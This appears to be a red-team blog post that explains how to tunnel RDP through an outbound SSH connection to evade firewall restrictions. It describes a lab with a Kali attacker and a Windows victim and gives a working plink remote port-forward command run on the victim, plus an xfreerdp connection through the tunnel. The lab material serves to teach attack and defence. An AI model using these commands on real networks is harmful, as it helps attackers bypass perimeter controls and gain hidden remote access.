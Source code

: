 ```yaml
---
title: "Bypassing Network Restrictions Through RDP Tunneling"
date: 2025-08-29
draft: false
summary: "When the firewall says 'no way in,' we tunnel our own highway."
description: "A deep dive into using SSH and RDP tunneling to slip past network restrictions, maintain persistence, and move laterally like a ghost in the wire."
tags: ["redteam", "ssh", "rdp", "persistence", "evasion"]
layoutBackgroundBlur: true
showDate: true
showAuthor: false
---
```


## Scenarios

Think stealth. In many enterprises, direct RDP connections to the internet are blocked—both inbound *and* outbound. Firewalls or egress filters cut off outbound RDP (TCP 3389) to prevent users or attackers from opening remote desktop sessions directly to the outside world.  

But here’s the catch: SSH is rarely blocked. Outbound SSH (TCP 22) is often allowed, either for administrators, developers, or automated processes that legitimately need it. This becomes the perfect cover channel.  

By wrapping RDP traffic inside an SSH tunnel, we bypass the outbound block entirely. To the firewall, it looks like a normal, permitted SSH session. Inside that encrypted stream, however, we’re smuggling RDP traffic.  

This dual effect makes SSH tunneling attractive:  
- **For admins/developers:** It provides secure, encrypted access without exposing RDP directly.  
- **For attackers:** It’s a stealth highway—RDP hidden inside an allowed protocol, nearly invisible to traditional firewall rules or simple packet inspection.  

In short: block RDP all you want—if SSH is open, attackers can still tunnel through.


## Work

Let’s break down how RDP tunneling through SSH actually works in practice:

1. **The Environment**  
   Inside the enterprise, there’s a Windows host running RDP on TCP 3389.  
   The firewall is locked down against inbound internet connections (a common setup), but outbound traffic is allowed.  
   On the outside, the operator controls a Linux server—often called a *bastion* or *C2 node*.

2. **The Pivot Calls Out**  
   From within the network, a machine that can reach the Windows RDP host initiates an outbound SSH connection to the external Linux server on TCP 22.  
   Because it’s outbound, the firewall happily lets it through.

3. **Building the Tunnel**  
   As part of that SSH session, the operator sets up a *remote port forward*.  
   In simple terms:  
   > “Hey Linux server, listen on 127.0.0.1:12345. Anything that comes in there—wrap it up, send it through this encrypted tunnel, and I’ll hand it off to the RDP service inside.”

4. **Listener Comes Alive**  
   Now the Linux server has a local-only listener running on 127.0.0.1:12345.  
   Nothing has touched the RDP host yet—it’s just a waiting pipe.

5. **Operator Connects Over RDP**  
   The operator fires up an RDP client on the Linux server, pointing it at 127.0.0.1:12345.  
   From the client’s perspective, it looks like a normal local connection.

6. **Traffic Flows Inside SSH**  
   The bytes from that RDP session don’t terminate on the Linux box.  
   Instead, SSH forwards them straight through the encrypted session on TCP 22.

7. **Delivered to the Real RDP Host**  
   On the inside, the SSH client receives the forwarded bytes and opens a standard TCP connection to the Windows host on port 3389.  
   From the Windows box’s perspective, it’s just a normal LAN connection.

8. **End-to-End Session**  
   From here on out, every RDP packet flows like this:  

The firewall only sees an allowed SSH session. It cannot inspect the RDP traffic inside because it’s fully encrypted.

`RDP client → 127.0.0.1:12345 (Linux) → SSH tunnel on TCP 22 → firewall → inside pivot → Windows:3389`

---

### What Each Party Sees
- **Perimeter firewall:** One long-lived outbound SSH connection with steady bandwidth.  
- **Linux server:** A loopback listener on 12345 receiving an RDP handshake.  
- **Windows host:** A local inbound connection to port 3389, as if it came from a machine inside the network.  

**Ports in play:**  
- 22 → SSH tunnel transport  
- 12345 → External loopback helper port  
- 3389 → Actual RDP service  
- Ephemeral ports → Temporary client-side sources  

---

### Why It Works
The firewall is configured to block inbound connections, but nothing stops an internal host from calling out.  
By wrapping RDP inside an outbound SSH tunnel, the operator bypasses the “no inbound” policy.  
From the outside world, nobody ever connects directly to port 3389—RDP is completely hidden inside SSH.

## Practice

### Environment Setup

For this lab, we’ll simulate a simple network:

- **Attacker (Kali Linux):** `192.168.50.2`  
- **Victim (Windows 10):** `192.168.50.3`  

The attacker will use SSH tunneling to reach the RDP service running on the victim, even though direct RDP connections are blocked.

---

### Steps

**Victim:**

`plink.exe <users>@<IP or domain> -pw <password> -P 22 -2 -4 -T -N -C -R 12345:127.0.0.1:3389`

**Attacker:**

`xfreerdp3 /u:<user> /p:<password> /v:127.0.0.1:12345`

---

1. **Enable outbound rule for mstsc**

<p align="center">
    <img src="img/1_Program.png" />
    <img src="img/1_Action.png" />
</p>

2. **Remmina**

<p align="center">
    <img src="img/remmina.png" />
    Fail when connect directly with rdp connection
</p>

3. **xfreerdp**

<p align="center">
    <img src="img/xfreerdp.png" />
    Success through ssh tunnel
</p>

## References

[Bypassing Network Restrictions Through RDP Tunneling](https://cloud.google.com/blog/topics/threat-intelligence/bypassing-network-restrictions-through-rdp-tunneling/)